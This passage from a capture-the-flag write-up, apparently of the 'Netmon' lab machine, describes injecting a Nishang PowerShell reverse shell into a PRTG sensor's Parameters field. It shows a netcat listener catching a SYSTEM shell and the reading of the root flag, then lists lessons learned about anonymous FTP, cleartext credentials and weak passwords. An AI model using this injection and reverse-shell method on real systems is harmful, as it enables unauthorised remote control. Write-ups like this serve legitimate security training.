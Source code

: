 We can’t add Powershell custom scripts because we don’t have write access to the application directory, but we can leverage the `Parameters` field to add additional code at the end of an existing Powershell script. I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) to get a reverse shell. I added a semi-colon at the beginning of the parameters, then pasted the Nishang code after it.

<center><img src="/assets/img/feature-img/shell.png" alt="Shell"></center>

After the sensor is created, we can start netcat and then we can hit the play button on sensor to execute it.

<center><img src="/assets/img/feature-img/prtg_rce2.png" alt="PRTG RCE"></center>

And finally, we get a shell as `nt authority\system`.


```bash
> nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.152] 51985
whoami
nt authority\system
PS C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
30189............................
```

Finally, we got the root flag!

<hr>

## Lessons Learned

- **Insecure configuration** of FTP server that allowed anonymous login. This allowed us to get access to the system and find cleartext credentials. The administrator should have disabled anonymous access to the FTP server.
- **Cleartext credentials**. A backup configuration file of the PRTG network monitoring tool contained cleartext credentials. As we saw in the reddit post, the company had sent its users an email warning them of exposed domain accounts and passwords. The administrator should have complied with the recommendation in the email and deleted the outlined files.
- **Weak authentication credentials**. Although we found old credentials that no longer were in use, we simply changed the year in the credentials and were able to access the admin account. The administrator should have used a complex password that would be difficult to crack and does not resemble previously used passwords on the application. 
